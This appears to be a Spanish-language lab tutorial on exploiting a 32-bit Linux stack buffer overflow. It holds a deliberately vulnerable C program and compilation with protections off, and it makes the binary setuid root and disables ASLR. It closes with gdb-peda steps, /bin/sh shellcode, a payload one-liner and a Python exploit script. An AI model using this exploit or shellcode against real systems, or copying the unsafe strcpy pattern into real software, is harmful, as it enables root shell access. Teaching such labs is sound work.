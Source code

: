 **EXPLICACÍON DETALLADA EN** [Buffer Overflow 32 Bits Linux](https://hacknotes.github.io/buffer%20overflow/buff32linux/)

## Script
```bash
#include <stdio.h>
#include <string.h>

int vuln(char *str)
{
    char buf[64];
    strcpy(buf,str);
    printf("Cadena: %s\n",buf);
    return 0;
}
int main(int argc, char* argv[])
{
    vuln(argv[1]);
}
```

## Compilacion

 ```bash
gcc -g -fno-stack-protector -z execstack -m32 buff.c -o buff
```

## Permisos
 
```bash
 chown root:root buff
 chmod +s buff
 echo 0 > /proc/sys/kernel/randomize_va_space
```
 
 ## GDB-Peda

Vemos los registros de la memoria

**Comando:** 
 ```bash
 i r
 ```
 
Crea cadenas aleatorias

**Comando:**
 ```bash
 pattern arg 100
 ```
 
 Ejecuta el binario

**Comando:**
 ```bash
 r
 ```
 
Encuentra el tamaño del offset.

**Comando:**
 ```bash
 pattern search
 ```
 
 Ver los ultimos 100 registros de la pila.

**Comando:**
 ```bash
 x/100wx $esp
 ```
 Nobs (no operate code).
 ```bash
 \x90
 ```
 
 Shell
 ```bash
 "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
 ```
 
 Payload final
 ```bash
 $(python -c 'print "A"*76 + "\xa0\xef\xff\xbf" + "\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
```
Script en python
```python
#!/usr/bin/python

from struct import pack

if __name__=='__main__':

        offset = 76
        junk = "A"*offset
        EIP = pack("<I", 0xbfffefa0)
        nops = "\x90"*100
        shell= "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

payload = junk + EIP + nops + shell

print payload
```
